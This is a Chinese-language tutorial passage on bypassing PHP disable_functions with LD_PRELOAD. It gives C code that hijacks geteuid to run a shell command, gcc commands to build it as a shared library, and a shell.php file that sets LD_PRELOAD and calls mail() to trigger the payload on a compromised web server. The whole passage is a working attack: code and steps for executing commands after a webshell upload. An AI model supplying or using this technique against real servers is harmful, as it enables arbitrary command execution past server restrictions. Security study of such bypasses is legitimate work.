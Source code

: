 创建一个`test.c`文件,并定义一个`geteuid`函数,目的是劫持该函数。

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("whoami > /var/tmp/sd.txt");
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

使用gcc编译为.so文件

```
gcc -c -fPIC test.c -o test
gcc -shared test -o test.so
```

这里有个坑:不要在windows上编译,编译出来是`MZ`头,不是`ELF`。

然后再上传test.so到指定目录下。

最后创建`shell.php`文件,上传到网站目录下,这里.so文件路径要写对。

```
<?php
putenv("LD_PRELOAD=/var/www/test.so");
mail("","","","","");
?>
```

再理一下整个过程:当我们访问shell.php文件的时候,先会将`LD_PRELOAD`路径设置为恶意的.so文件，然后触发mail()函数,mail函数会调用sendmail函数,sendmail函数会调用库函数geteuid,而库函数geteuid已经被优先加载,这时执行geteuid就是执行的我们自己定义的函数,并执行payload(),也就是代码中的`whoami`命令写入到sd.txt中。

由于拿到的webshell很有可能是`www-data`这种普通权限。
整个过程要注意权限问题,要可写的目录下。

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001917-3503f540-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001917-3503f540-fc52-1.png)
